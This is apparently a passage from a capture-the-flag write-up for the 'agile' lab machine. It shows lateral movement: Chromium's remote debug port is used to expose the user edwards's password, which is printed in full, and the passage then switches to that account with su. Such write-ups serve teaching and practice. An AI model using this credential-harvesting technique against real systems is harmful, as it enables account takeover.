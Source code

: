 ```bash
permitted by applicable law.

Last login: Sat Nov 30 12:21:08 2024 from 10.10.14.14
corum@agile:~$ 
```

Then, let's open `Chromium` and set a debug port.

![](attachments/agile_11.png)

Then, I can open `Inspect` button and see the following;

![](attachments/agile_12.png)

This reveals `edwards`'s password : `d07867c6267dcb5df0af`.

```bash
corum@agile:/tmp$ su edwards
su edwards
Password: d07867c6267dcb5df0af

edwards@agile:/tmp$ id
id
uid=1002(edwards) gid=1002(edwards) groups=1002(edwards)
```
